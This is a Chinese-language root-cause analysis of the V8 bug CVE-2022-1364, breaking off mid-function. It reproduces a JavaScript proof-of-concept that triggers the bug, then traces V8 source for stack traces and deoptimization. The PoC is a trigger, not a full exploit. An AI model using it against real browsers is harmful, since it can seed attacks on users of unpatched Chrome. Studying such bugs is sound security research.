

从 https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-1364.html 得到漏洞影响的 Chrome 版本以及 POC 代码。

## 复现

从 https://vikyd.github.io/download-chromium-history-version/#/ 搜索到一个距修复版本比较近的版本 100.0.4896.124 的官方备份 https://commondatastorage.googleapis.com/chromium-browser-snapshots/index.html?prefix=Win_x64/972766/ 

 ./Chrome.exe --js-flags="--allow-natives-syntax" --no-sandbox --enable-logging=stderr 启动 Chrome，访问 POC 页面 index.html。

```html
<body>
<script>
        function foo(bug) {
  function C(z) {
    Error.prepareStackTrace = function(t, B) {
      return B[z].getThis();
    };
    let p = Error().stack;
    Error.prepareStackTrace = null;
    return p;
  }
  function J() {}
  var optim = false;
  var opt = new Function(
      'a', 'b', 'c',
      'if(typeof a===\'number\'){if(a>2){for(var i=0;i<100;i++);return;}b.d(a,b,1);return}' +
          'g++;'.repeat(70));
  var e = null;
  J.prototype.d = new Function(
      'a', 'b', '"use strict";b.a.call(arguments,b);return arguments[a];');
  J.prototype.a = new Function('a', 'a.b(0,a)');
  J.prototype.b = new Function(
      'a', 'b',
      'b.c();if(a){' +
          'g++;'.repeat(70) + '}');
  J.prototype.c = function() {
    if (optim) {
      var z = C(3);
      var p = C(3);
      z[0] = 0;
      e = {M: z, C: p};
    }
  };
  var a = new J();
  // jit optim
  if (bug) {
    for (var V = 0; 1E4 > V; V++) {
       opt(0 == V % 4 ? 1 : 4, a, 1);
    }
  }
  optim = true;
  opt(1, a, 1);
  return e;
}

e1 = foo(false);
console.log(e1.M === e1.C); // prints true.
e2 = foo(true);
console.log(e2.M === e2.C); // should be true as above but prints false.
</script>
</body>
```

可以看到，两次 console.log 分别输出 true 和 false。

## 分析

先简单看下 POC 代码，e1 和 e2  的来源其实是 J.prototype.c 函数中的 e，可以看到 e.M 和 e.C 都是函数调用 C(3)  的返回值，再看函数 C，看起来像是在获取当前的调用栈，在临近的位置调用两次 C 函数，另外还可以看到两次 foo 函数调用的不同之处，主要在是否对 opt 函数进行 JIT 编译。

先看函数 C，里面用到了 Error 和 StackTrace 相关的 API，搜索到一篇相关的介绍 https://v8.dev/docs/stack-trace-api ，读了以后了解到，Error 对象的 stack 属性，可以用来读 Error 创建时的调用栈，这个 stack 属性是在第一次被读取时，使用 Error.prepareStackTrace 函数生成的，Error.prepareStackTrace 的两个参数分别是 Error 对象和  structuredStackTrace。structuredStackTrace 是 Callsite 对象的数组，Callsite 就记录着每一层的栈帧信息，Callsite 的 getThis 方法就可以获取到栈帧对应的 this 对象。修改 Error.prepareStackTrace 就可以自定义 stack 属性的生成。

这样的话在临近位置，连续调用函数 C 返回的应该就是同一层栈帧对应的 this 对象。e2.M === e2.C 应该像注释中描述的也为 true 才对。继续分析 opt 函数的 JIT 编译做了哪些优化，为什么改变了这个结果。

用 ./Chrome.exe --js-flags="--allow-natives-syntax --trace-turbo" --no-sandbox --enable-logging=stderr 命令重新启动 chrome，访问 POC 页面后，得到编译过程的 trace 日志 ![[turbo-000000B00023E8B4-0 1.json]]，用 [v8 turbolizer](https://v8.github.io/tools/head/turbolizer/index.html) 打开

opt 函数整理一下，可以写成下面的形式：
```javascript
function opt(a,b,c) {
    if(typeof a ==='number'){
	    if(a>2){
		    for(vari=0;i<100;i++)
		        ;
			return;
		}
		b.d(a,b,1);
		return;
	}
		    g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;
    }
```

其中 b.d 就是 j.prototype.d 可以整理成：
```javascript
function d(a, b) {
    use strict;
    b.a.call(arguments, b);
    return arguments[a];
}
```

b.a 就是 j.prototype.a 可以整理成：
function (a) {
    a.b(0, a);
}

a.b 就是 j.prototype.b 可以整理成：
```javascript
function (a, b) {
    b.c();
    if (a) {
        g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;....
    }
}
```


b.c 就是 J.prototype.c 整理成：
```javascript
function () {
  if (optim) {
      var z = C(3);
      var p = C(3);
      z[0] = 0;
      e = {M: z, C: p};
  }
}
```


C 函数中的 Error().stack 抓到的调用栈应该是下面这样的：
```javascript
C()
J.prototype.c()
J.prototype.b()
J.prototype.a()
J.prototype.d()
opt()
```


那么 `B[z].getThis()` 获取到的就是 `J.prototype.a` 这一层调用的 `this`，也就是 `J.prototype.d` 函数中通过 `call` 函数指定的 `arguments` 对象, 应该是数组 `[1, globalThis.a, 1]`

在调试器里跟踪一下 `Error` 对象的相关流程，学习一下 `Error` 对象的实现。
加入一个 `%SystemBreak()` 函数调用，让程序在构建调用栈时断下。
```javascript
Error.prepareStackTrace = function(t, B) {
		%SystemBreak();
      return B[z].getThis();
};
```

得到如下调用栈

```cpp
>	chrome.dll!v8::base::OS::DebugBreak()
 	[Inline Frame] chrome.dll!v8::internal::__RT_impl_Runtime_SystemBreak(
 	chrome.dll!v8::internal::Runtime_SystemBreak(int)
 	00007ffb1fecbcb7()	Unknown
 	00007ffb1ff6d5cb()	Unknown
 	00007ffb1fe4c9e2()	Unknown
 	00007ffb1fe4aa1c()	Unknown
 	00007ffb1fe4a61b()	Unknown
 	[Inline Frame] chrome.dll!v8::internal::GeneratedCode<unsigned long long,unsigned long long,unsigned long long,unsigned long long,unsigned long long,long long,unsigned long long **>::Call(unsigned __int64) Line 156	C++
 	chrome.dll!v8::internal::`anonymous namespace'::Invoke(
 	chrome.dll!v8::internal::Execution::Call(
 	chrome.dll!v8::internal::ErrorUtils::FormatStackTrace(
 	chrome.dll!v8::internal::ErrorUtils::GetFormattedStack(
 	chrome.dll!v8::internal::Accessors::ErrorStackGetter(v8::Local<v8::Name>) 
 	[Inline Frame] chrome.dll!v8::internal::PropertyCallbackArguments::BasicCallNamedGetterCallback(
 	chrome.dll!v8::internal::PropertyCallbackArguments::CallAccessorGetter(
 	chrome.dll!v8::internal::Object::GetPropertyWithAccessor()
 	chrome.dll!v8::internal::Object::GetProperty(bool)
 	chrome.dll!v8::internal::LoadIC::Load(v8::internal::Handle<v8::internal::Object>) 
 	[Inline Frame] chrome.dll!v8::internal::__RT_impl_Runtime_LoadNoFeedbackIC_Miss(
 	chrome.dll!v8::internal::Runtime_LoadNoFeedbackIC_Miss(int)
 	...
```

可以看出 `Error.stack` 属性是一个 `accessor`，对这个属性的访问，触发了对应了 `ErrorStackGetter` 函数的执行，继续浏览调用栈，可以看到一个 `FormatStackTrace` 函数，这个函数的实现跟之前读到的文档的内容可以匹配上，程序先创建了一个 `CallSite` 对象的数组，然后用这个数组作为参数，调用了 `prepareStackTrace` 函数。

```cpp
// static
MaybeHandle<Object> ErrorUtils::GetFormattedStack(
    Isolate* isolate, Handle<JSObject> error_object) {
  TRACE_EVENT0(TRACE_DISABLED_BY_DEFAULT("v8.stack_trace"), __func__);

  Handle<Object> error_stack = JSReceiver::GetDataProperty(
      error_object, isolate->factory()->error_stack_symbol());
  if (error_stack->IsErrorStackData()) {
    ....
    return formatted_stack;
  }

  if (error_stack->IsFixedArray()) {
    ///>>>> 程序走到这里
    Handle<Object> formatted_stack;
    ASSIGN_RETURN_ON_EXCEPTION(
        isolate, formatted_stack,
        FormatStackTrace(isolate, error_object,
                         Handle<FixedArray>::cast(error_stack)),
        Object);
    RETURN_ON_EXCEPTION(
        isolate,
        JSObject::SetProperty(isolate, error_object,
                              isolate->factory()->error_stack_symbol(),
                              formatted_stack, StoreOrigin::kMaybeKeyed,
                              Just(ShouldThrow::kThrowOnError)),
        Object);
    return formatted_stack;
  }

  return error_stack;
}

// static
MaybeHandle<Object> ErrorUtils::FormatStackTrace(Isolate* isolate,
                                                 Handle<JSObject> error,
                                                 Handle<Object> raw_stack) {
  if (FLAG_correctness_fuzzer_suppressions) {
    return isolate->factory()->empty_string();
  }
  DCHECK(raw_stack->IsFixedArray());
  Handle<FixedArray> elems = Handle<FixedArray>::cast(raw_stack);

  const bool in_recursion = isolate->formatting_stack_trace();
  const bool has_overflowed = i::StackLimitCheck{isolate}.HasOverflowed();
  Handle<Context> error_context;
  if (!in_recursion && !has_overflowed &&
      error->GetCreationContext().ToHandle(&error_context)) {
    DCHECK(error_context->IsNativeContext());

    if (isolate->HasPrepareStackTraceCallback()) {
      ...
    } else {
      Handle<JSFunction> global_error =
          handle(error_context->error_function(), isolate);

      // If there's a user-specified "prepareStackTrace" function, call it on
      // the frames and use its result.

      Handle<Object> prepare_stack_trace;
      ASSIGN_RETURN_ON_EXCEPTION(
          isolate, prepare_stack_trace,
          JSFunction::GetProperty(isolate, global_error, "prepareStackTrace"),
          Object);

      if (prepare_stack_trace->IsJSFunction()) {
        PrepareStackTraceScope scope(isolate);

        isolate->CountUsage(v8::Isolate::kErrorPrepareStackTrace);

        Handle<JSArray> sites;
        ASSIGN_RETURN_ON_EXCEPTION(isolate, sites,
                                   GetStackFrames(isolate, elems), Object);

        const int argc = 2;
        base::ScopedVector<Handle<Object>> argv(argc);
        argv[0] = error;
        argv[1] = sites;

        Handle<Object> result;

        ASSIGN_RETURN_ON_EXCEPTION(
            isolate, result,
            Execution::Call(isolate, prepare_stack_trace, global_error, argc,
                            argv.begin()),
            Object);

        return result;
      }
    }
  }

  // Otherwise, run our internal formatting logic.
  ...
}

// Convert the raw frames as written by Isolate::CaptureSimpleStackTrace into
// a JSArray of JSCallSite objects.
MaybeHandle<JSArray> GetStackFrames(Isolate* isolate,
                                    Handle<FixedArray> frames) {
  int frame_count = frames->length();
  Handle<JSFunction> constructor = isolate->callsite_function();
  Handle<FixedArray> sites = isolate->factory()->NewFixedArray(frame_count);
  for (int i = 0; i < frame_count; ++i) {
    Handle<CallSiteInfo> frame(CallSiteInfo::cast(frames->get(i)), isolate);
    Handle<JSObject> site;
    ASSIGN_RETURN_ON_EXCEPTION(
        isolate, site,
        JSObject::New(constructor, constructor, Handle<AllocationSite>::null()),
        JSArray);
    RETURN_ON_EXCEPTION(isolate,
                        JSObject::SetOwnPropertyIgnoreAttributes(
                            site, isolate->factory()->call_site_info_symbol(),
                            frame, DONT_ENUM),
                        JSArray);
    sites->set(i, *site);
  }

  return isolate->factory()->NewJSArrayWithElements(sites);
}
```


在代码中搜索 callsie 关键字，可以搜到 getThis 的 CPP 实现 BUILTIN(CallSitePrototypeGetThis)。

```CPP
BUILTIN(CallSitePrototypeGetThis) {
  HandleScope scope(isolate);
  CHECK_CALLSITE(frame, "getThis");
  if (frame->IsStrict()) return ReadOnlyRoots(isolate).undefined_value();
  isolate->CountUsage(v8::Isolate::kCallSiteAPIGetThisSloppyCall);
#if V8_ENABLE_WEBASSEMBLY
  if (frame->IsAsmJsWasm()) {
    return frame->GetWasmInstance().native_context().global_proxy();
  }
#endif  // V8_ENABLE_WEBASSEMBLY
  return frame->receiver_or_instance();
}

#define CHECK_CALLSITE(frame, method)                                         \
  CHECK_RECEIVER(JSObject, receiver, method);                                 \
  LookupIterator it(isolate, receiver,                                        \
                    isolate->factory()->call_site_info_symbol(),              \
                    LookupIterator::OWN_SKIP_INTERCEPTOR);                    \
  if (it.state() != LookupIterator::DATA) {                                   \
    THROW_NEW_ERROR_RETURN_FAILURE(                                           \
        isolate,                                                              \
        NewTypeError(MessageTemplate::kCallSiteMethod,                        \
                     isolate->factory()->NewStringFromAsciiChecked(method))); \
  }                                                                           \
  Handle<CallSiteInfo> frame = Handle<CallSiteInfo>::cast(it.GetDataValue())
```

可以看到 getThis 就是读取了存储在 CallSizeInfo 对象中的 receiver 数据， 往前追溯 CallSiteInfo 的来源，发现是 `JSReceiver::GetDataProperty(error_object, isolate->factory()->error_stack_symbol());` 语句读取的，在代码中搜索 error_stack_symbol 关键字，找到疑似设置属性的函数 `Isolate::CaptureAndSetErrorStack`， 下断点后刷新页面，断点断下，检查调用栈可以看到是 error 对象的构造函数中调用了此函数采集调用栈信息。

```cpp
MaybeHandle<JSObject> Isolate::CaptureAndSetErrorStack(
    Handle<JSObject> error_object, FrameSkipMode mode, Handle<Object> caller) {
  TRACE_EVENT0(TRACE_DISABLED_BY_DEFAULT("v8.stack_trace"), __func__);
  Handle<Object> error_stack = factory()->undefined_value();

  // Capture the "simple stack trace" for the error.stack property,
  // which can be disabled by setting Error.stackTraceLimit to a non
  // number value or simply deleting the property. If the inspector
  // is active, and requests more stack frames than the JavaScript
  // program itself, we collect up to the maximum.
  int stack_trace_limit = 0;
  if (GetStackTraceLimit(this, &stack_trace_limit)) {
    int limit = stack_trace_limit;
    if (capture_stack_trace_for_uncaught_exceptions_ &&
        !(stack_trace_for_uncaught_exceptions_options_ &
          StackTrace::kExposeFramesAcrossSecurityOrigins)) {
      // Collect up to the maximum of what the JavaScript program and
      // the inspector want. There's a special case here where the API
      // can ask the stack traces to also include cross-origin frames,
      // in which case we collect a separate trace below. Note that
      // the inspector doesn't use this option, so we could as well
      // just deprecate this in the future.
      if (limit < stack_trace_for_uncaught_exceptions_frame_limit_) {
        limit = stack_trace_for_uncaught_exceptions_frame_limit_;
      }
    }
    error_stack = CaptureSimpleStackTrace(this, limit, mode, caller);
  }

  // Next is the inspector part: Depending on whether we got a "simple
  // stack trace" above and whether that's usable (meaning the API
  // didn't request to include cross-origin frames), we remember the
  // cap for the stack trace (either a positive limit indicating that
  // the Error.stackTraceLimit value was below what was requested via
  // the API, or a negative limit to indicate the opposite), or we
  // collect a "detailed stack trace" eagerly and stash that away.
  if (capture_stack_trace_for_uncaught_exceptions_) {
    Handle<Object> limit_or_stack_frame_infos;
    if (error_stack->IsUndefined(this) ||
        (stack_trace_for_uncaught_exceptions_options_ &
         StackTrace::kExposeFramesAcrossSecurityOrigins)) {
      limit_or_stack_frame_infos = CaptureDetailedStackTrace(
          stack_trace_for_uncaught_exceptions_frame_limit_,
          stack_trace_for_uncaught_exceptions_options_);
    } else {
      int limit =
          stack_trace_limit > stack_trace_for_uncaught_exceptions_frame_limit_
              ? -stack_trace_for_uncaught_exceptions_frame_limit_
              : stack_trace_limit;
      limit_or_stack_frame_infos = handle(Smi::FromInt(limit), this);
    }
    error_stack =
        factory()->NewErrorStackData(error_stack, limit_or_stack_frame_infos);
  }

  RETURN_ON_EXCEPTION(
      this,
      JSObject::SetProperty(this, error_object, factory()->error_stack_symbol(),
                            error_stack, StoreOrigin::kMaybeKeyed,
                            Just(ShouldThrow::kThrowOnError)),
      JSObject);
  return error_object;
}
```

经过几个小时的验证，我确认是在 Error 对象创建过程时抓取到的栈回溯已经出问题了，为了完全搞懂问题出在哪，我接下来分析一下栈回溯的过程。

栈回溯的主要流程在 `VisitStack` 函数中，由 StackFrameIterator 对象完成的

```cpp
template <typename Visitor>
void VisitStack(Isolate* isolate, Visitor* visitor,
                StackTrace::StackTraceOptions options = StackTrace::kDetailed) {
  DisallowJavascriptExecution no_js(isolate);
  for (StackFrameIterator it(isolate); !it.done(); it.Advance()) {
    StackFrame* frame = it.frame();
    switch (frame->type()) {
      case StackFrame::BUILTIN_EXIT:
      case StackFrame::JAVA_SCRIPT_BUILTIN_CONTINUATION:
      case StackFrame::JAVA_SCRIPT_BUILTIN_CONTINUATION_WITH_CATCH:
      case StackFrame::OPTIMIZED:
      case StackFrame::INTERPRETED:
      case StackFrame::BASELINE:
      case StackFrame::BUILTIN:
#if V8_ENABLE_WEBASSEMBLY
      case StackFrame::WASM:
#endif  // V8_ENABLE_WEBASSEMBLY
      {
        // A standard frame may include many summarized frames (due to
        // inlining).
        std::vector<FrameSummary> summaries;
        CommonFrame::cast(frame)->Summarize(&summaries);
        for (auto rit = summaries.rbegin(); rit != summaries.rend(); ++rit) {
          FrameSummary& summary = *rit;
          // Skip frames from other origins when asked to do so.
          if (!(options & StackTrace::kExposeFramesAcrossSecurityOrigins) &&
              !summary.native_context()->HasSameSecurityTokenAs(
                  isolate->context())) {
            continue;
          }
          if (!visitor->Visit(summary)) return;
        }
        break;
      }

      default:
        break;
    }
  }
}

StackFrameIterator::StackFrameIterator(Isolate* isolate)
    : StackFrameIterator(isolate, isolate->thread_local_top()) {}


StackFrameIterator::StackFrameIterator(Isolate* isolate, ThreadLocalTop* t)
    : StackFrameIteratorBase(isolate, true) {
  Reset(t);
}

void StackFrameIterator::Reset(ThreadLocalTop* top) {
  StackFrame::State state;
  StackFrame::Type type =
      ExitFrame::GetStateForFramePointer(Isolate::c_entry_fp(top), &state);
  handler_ = StackHandler::FromAddress(Isolate::handler(top));
  frame_ = SingletonFor(type, &state);
}

static Address c_entry_fp(ThreadLocalTop* thread) {
	return thread->c_entry_fp_;
}

```

可以看到是从 thread->c_entry_fp_ 开始的，通过下数据访问断点，我发现这个变量是在 `Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_BuiltinExit 中设置的，阅读代码发现这个函数负责在 javascript 调用 CPP 的 Runtime 函数时，在栈上构建 BuiltinExitFrame 调用栈，构建好的 BultinExitFrame 会被存储到 thread->c_entry_fp_ 中，目前存储的就是调用 ErrorConstruct 构建的 BuiltinExitFrame。

---
⚡查资料来看 v8 的调用栈分很多种类型，适合不同的场景，比如从 CPP 到 Javascript 代码会构建一个 EntryFrame，解释器会构建一个 InterpretedFrame， Javascript 调用 CPP 函数会构建 ExitFrame/BuiltinExitFrame

---

那么栈回溯就是从 ErrorConstruct 的栈帧开始，之后通过 `StackFrameIterator::Advance` 函数移动到调用方。

```cpp
void StackFrameIterator::Advance() {
  DCHECK(!done());
  // Compute the state of the calling frame before restoring
  // callee-saved registers and unwinding handlers. This allows the
  // frame code that computes the caller state to access the top
  // handler and the value of any callee-saved register if needed.
  StackFrame::State state;
  StackFrame::Type type = frame_->GetCallerState(&state);

  // Unwind handlers corresponding to the current frame.
  StackHandlerIterator it(frame_, handler_);
  while (!it.done()) it.Advance();
  handler_ = it.handler();

  // Advance to the calling frame.
  frame_ = SingletonFor(type, &state);

  // When we're done iterating over the stack frames, the handler
  // chain must have been completely unwound. Except for wasm stack-switching:
  // we stop at the end of the current segment.
#if V8_ENABLE_WEBASSEMBLY
  DCHECK_IMPLIES(done() && !FLAG_experimental_wasm_stack_switching,
                 handler_ == nullptr);
#else
  DCHECK_IMPLIES(done(), handler_ == nullptr);
#endif
}
```

移动操作主要是 `frame_->GetCallerState(&state)` 语句完成，`GetCallerState` 是一个虚函数，不同类型的调用栈实现不同，调试时实际调用的是 `StackFrame::GetCallerState` 函数

```cpp
StackFrame::Type StackFrame::GetCallerState(State* state) const {
  ComputeCallerState(state); // 也是虚函数，实际调用的是 ExitFrame::ComputeCallerState
  return ComputeType(iterator_, state);
}

void ExitFrame::ComputeCallerState(State* state) const {
  // Set up the caller state.
  state->sp = caller_sp();
  state->fp = Memory<Address>(fp() + ExitFrameConstants::kCallerFPOffset);
  state->pc_address = ResolveReturnAddressLocation(
      reinterpret_cast<Address*>(fp() + ExitFrameConstants::kCallerPCOffset));
  state->callee_pc_address = nullptr;
  if (FLAG_enable_embedded_constant_pool) {
    state->constant_pool_address = reinterpret_cast<Address*>(
        fp() + ExitFrameConstants::kConstantPoolOffset);
  }
}

Address CommonFrame::GetCallerStackPointer() const {
  return fp() + CommonFrameConstants::kCallerSPOffset;
}

template <class T>
inline T& Memory(Address addr) {
  DCHECK(IsAligned(addr, alignof(T)));
  return *reinterpret_cast<T*>(addr);
}

static constexpr int kCallerFPOffset = 0 * kSystemPointerSize;
static constexpr int kCallerPCOffset = kCallerFPOffset + 1 * kFPOnStackSize;
static constexpr int kCallerSPOffset = kCallerPCOffset + 1 * kPCOnStackSize;

```

可以看到，Advance 操作，就是从栈中读取函数 Prolog 部分保存的上层函数的 ebp，通过 ebp 就可以读取到了上层函数的整个栈帧，跟 CPP 的栈回溯是差不多的。

再回到上面的 `VisitStack` 函数分析一下整个的栈回溯过程，可以看到对每层调用栈，调用 `CommonFrame::cast(frame)->Summarize(&summaries);` 收集的此层函数调用的信息。`CommonFrame::Summarize` 是个虚函数，对于 Interpreter 栈帧来说实际调用的是 `UnoptimizedFrame::Summarize`

```CPP
void UnoptimizedFrame::Summarize(std::vector<FrameSummary>* functions) const {
  DCHECK(functions->empty());
  Handle<AbstractCode> abstract_code(AbstractCode::cast(GetBytecodeArray()),
                                     isolate());
  Handle<FixedArray> params = GetParameters();
  FrameSummary::JavaScriptFrameSummary summary(
      isolate(), receiver(), function(), *abstract_code, GetBytecodeOffset(),
      IsConstructor(), *params);
  functions->push_back(summary);
}

Object CommonFrameWithJSLinkage::receiver() const { return GetParameter(-1); }

JSFunction JavaScriptFrame::function() const {
  return JSFunction::cast(function_slot_object());
}

Handle<FixedArray> CommonFrameWithJSLinkage::GetParameters() const {
  if (V8_LIKELY(!FLAG_detailed_error_stack_trace)) {
    return isolate()->factory()->empty_fixed_array();
  }
  int param_count = ComputeParametersCount();
  Handle<FixedArray> parameters =
      isolate()->factory()->NewFixedArray(param_count);
  for (int i = 0; i < param_count; i++) {
    parameters->set(i, GetParameter(i));
  }

  return parameters;
}
```

这个函数还相对简单，就是读取了当前栈帧中存储的 receiver, parameters, 字节码偏移量等信息, 存储到 summary。

触发漏洞的栈帧，是 turbofan 编译的代码创建的，对应的 `Summarize` 实现是 `OptimizedFrame::Summarize`

```cpp
void OptimizedFrame::Summarize(std::vector<FrameSummary>* frames) const {
  DCHECK(frames->empty());
  DCHECK(is_optimized());

  // Delegate to JS frame in absence of turbofan deoptimization.
  // TODO(turbofan): Revisit once we support deoptimization across the board.
  Code code = LookupCode();
  if (code.kind() == CodeKind::BUILTIN) {
    return JavaScriptFrame::Summarize(frames);
  }

  int deopt_index = SafepointEntry::kNoDeoptIndex;
  DeoptimizationData const data = GetDeoptimizationData(&deopt_index);
  if (deopt_index == SafepointEntry::kNoDeoptIndex) {
    CHECK(data.is_null());
    FATAL("Missing deoptimization information for OptimizedFrame::Summarize.");
  }

  // Prepare iteration over translation. Note that the below iteration might
  // materialize objects without storing them back to the Isolate, this will
  // lead to objects being re-materialized again for each summary.
  TranslatedState translated(this);
  translated.Prepare(fp());

  // We create the summary in reverse order because the frames
  // in the deoptimization translation are ordered bottom-to-top.
  bool is_constructor = IsConstructor();
  for (auto it = translated.begin(); it != translated.end(); it++) {
    if (it->kind() == TranslatedFrame::kUnoptimizedFunction ||
        it->kind() == TranslatedFrame::kJavaScriptBuiltinContinuation ||
        it->kind() ==
            TranslatedFrame::kJavaScriptBuiltinContinuationWithCatch) {
      Handle<SharedFunctionInfo> shared_info = it->shared_info();

      // The translation commands are ordered and the function is always
      // at the first position, and the receiver is next.
      TranslatedFrame::iterator translated_values = it->begin();

      // Get or materialize the correct function in the optimized frame.
      Handle<JSFunction> function =
          Handle<JSFunction>::cast(translated_values->GetValue());
      translated_values++;

      // Get or materialize the correct receiver in the optimized frame.
      Handle<Object> receiver = translated_values->GetValue();
      translated_values++;

      // Determine the underlying code object and the position within it from
      // the translation corresponding to the frame type in question.
      Handle<AbstractCode> abstract_code;
      unsigned code_offset;
      if (it->kind() == TranslatedFrame::kJavaScriptBuiltinContinuation ||
          it->kind() ==
              TranslatedFrame::kJavaScriptBuiltinContinuationWithCatch) {
        code_offset = 0;
        abstract_code = ToAbstractCode(
            isolate()->builtins()->code_handle(
                Builtins::GetBuiltinFromBytecodeOffset(it->bytecode_offset())),
            isolate());
      } else {
        DCHECK_EQ(it->kind(), TranslatedFrame::kUnoptimizedFunction);
        code_offset = it->bytecode_offset().ToInt();
        abstract_code =
            handle(shared_info->abstract_code(isolate()), isolate());
      }

      // Append full summary of the encountered JS frame.
      Handle<FixedArray> params = GetParameters();
      FrameSummary::JavaScriptFrameSummary summary(
          isolate(), *receiver, *function, *abstract_code, code_offset,
          is_constructor, *params);
      frames->push_back(summary);
      is_constructor = false;
    } else if (it->kind() == TranslatedFrame::kConstructStub) {
      // The next encountered JS frame will be marked as a constructor call.
      DCHECK(!is_constructor);
      is_constructor = true;
    }
  }
}
```

可以看到这个函数的代码量相对大了不少，这是因为 turbofan 生成的代码经过了各种优化，有些函数可能被内联，有些本来会保存在栈上的数据被优化掉了，在栈回溯的时候，就要把这些信息恢复回去。turbofan 在生成优化代码的时候，就已经考虑到了逆优化的场景，把需要的信息都已经存到了 Deoptimization 结构中，这个函数就是在遍历 Deoptimization 数据，恢复栈帧的原貌。

对于 POC 代码来说，通过 turbolizer 查看 tubofan 的 trace 可以发现下面三个函数被内联成一个。  

```cpp
function opt(a,b,c) {
    if(typeof a ==='number'){
	    if(a>2){
		    for(vari=0;i<100;i++)
		        ;
			return;
		}
		b.d(a,b,1);
		return;
	}
			g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;g++;
}

function d(a, b) {
    use strict;
    b.a.call(arguments, b);
    return arguments[a];
}
	    
j.prototype.a = function (a) {
    a.b(0, a);
}
```


```
0 C
1 c
2 b
3 a
```


查找 translation_array 的来源，找到 `BuildTranslation` 函数

```CPP
DeoptimizationExit* CodeGenerator::BuildTranslation(
    Instruction* instr, int pc_offset, size_t frame_state_offset,
    size_t immediate_args_count, OutputFrameStateCombine state_combine) {
  DeoptimizationEntry const& entry =
      GetDeoptimizationEntry(instr, frame_state_offset);
  FrameStateDescriptor* const descriptor = entry.descriptor();
  frame_state_offset++;

  const int update_feedback_count = entry.feedback().IsValid() ? 1 : 0;
  const int translation_index = translations_.BeginTranslation(
      static_cast<int>(descriptor->GetFrameCount()),
      static_cast<int>(descriptor->GetJSFrameCount()), update_feedback_count);
  if (entry.feedback().IsValid()) {
    DeoptimizationLiteral literal =
        DeoptimizationLiteral(entry.feedback().vector);
    int literal_id = DefineDeoptimizationLiteral(literal);
    translations_.AddUpdateFeedback(literal_id, entry.feedback().slot.ToInt());
  }
  InstructionOperandIterator iter(instr, frame_state_offset);
  BuildTranslationForFrameStateDescriptor(descriptor, &iter, state_combine);

  DeoptimizationExit* const exit = zone()->New<DeoptimizationExit>(
      current_source_position_, descriptor->bailout_id(), translation_index,
      pc_offset, entry.kind(), entry.reason(),
#ifdef DEBUG
      entry.node_id());
#else   // DEBUG
      0);
#endif  // DEBUG
  if (!Deoptimizer::kSupportsFixedDeoptExitSizes) {
    exit->set_deoptimization_id(next_deoptimization_id_++);
  }
  if (immediate_args_count != 0) {
    auto immediate_args = zone()->New<ZoneVector<ImmediateOperand*>>(zone());
    InstructionOperandIterator imm_iter(
        instr, frame_state_offset - immediate_args_count - 1);
    for (size_t i = 0; i < immediate_args_count; i++) {
      immediate_args->emplace_back(ImmediateOperand::cast(imm_iter.Advance()));
    }
    exit->set_immediate_args(immediate_args);
  }

  deoptimization_exits_.push_back(exit);
  return exit;
}

void CodeGenerator::TranslateStateValueDescriptor(
    StateValueDescriptor* desc, StateValueList* nested,
    InstructionOperandIterator* iter) {
  if (desc->IsNested()) {
    translations_.BeginCapturedObject(static_cast<int>(nested->size()));
    for (auto field : *nested) {
      TranslateStateValueDescriptor(field.desc, field.nested, iter);
    }
  } else if (desc->IsArgumentsElements()) {
    translations_.ArgumentsElements(desc->arguments_type());
  } else if (desc->IsArgumentsLength()) {
    translations_.ArgumentsLength();
  } else if (desc->IsDuplicate()) {
    translations_.DuplicateObject(static_cast<int>(desc->id()));
  } else if (desc->IsPlain()) {
    InstructionOperand* op = iter->Advance();
    AddTranslationForOperand(iter->instruction(), op, desc->type());
  } else {
    DCHECK(desc->IsOptimizedOut());
      if (optimized_out_literal_id_ == -1) {
        optimized_out_literal_id_ = DefineDeoptimizationLiteral(
            DeoptimizationLiteral(isolate()->factory()->optimized_out()));
      }
      translations_.StoreLiteral(optimized_out_literal_id_);
  }
}


```

函数中用到了两个关键参数，`FrameStateDescriptor* const descriptor = entry.descriptor();` 和 `InstructionOperandIterator iter(instr, frame_state_offset);`，追踪这两个参数的来源，找到 `InstructionSelector::VisitDeoptimize`

```CPP
void InstructionSelector::VisitDeoptimize(DeoptimizeKind kind,
                                          DeoptimizeReason reason,
                                          NodeId node_id,
                                          FeedbackSource const& feedback,
                                          FrameState frame_state) {
  InstructionOperandVector args(instruction_zone());
  AppendDeoptimizeArguments(&args, kind, reason, node_id, feedback,
                            frame_state);
  Emit(kArchDeoptimize, 0, nullptr, args.size(), &args.front(), 0, nullptr);
}

void InstructionSelector::AppendDeoptimizeArguments(
    InstructionOperandVector* args, DeoptimizeKind kind,
    DeoptimizeReason reason, NodeId node_id, FeedbackSource const& feedback,
    FrameState frame_state) {
  OperandGenerator g(this);
  FrameStateDescriptor* const descriptor = GetFrameStateDescriptor(frame_state);
  DCHECK_NE(DeoptimizeKind::kLazy, kind);
  int const state_id = sequence()->AddDeoptimizationEntry(
      descriptor, kind, reason, node_id, feedback);
  args->push_back(g.TempImmediate(state_id));
  StateObjectDeduplicator deduplicator(instruction_zone());
  AddInputsToFrameStateDescriptor(descriptor, frame_state, &g, &deduplicator,
                                  args, FrameStateInputKind::kAny,
                                  instruction_zone());
}

// Returns the number of instruction operands added to inputs.
size_t InstructionSelector::AddInputsToFrameStateDescriptor(
    FrameStateDescriptor* descriptor, FrameState state, OperandGenerator* g,
    StateObjectDeduplicator* deduplicator, InstructionOperandVector* inputs,
    FrameStateInputKind kind, Zone* zone) {
  size_t entries = 0;
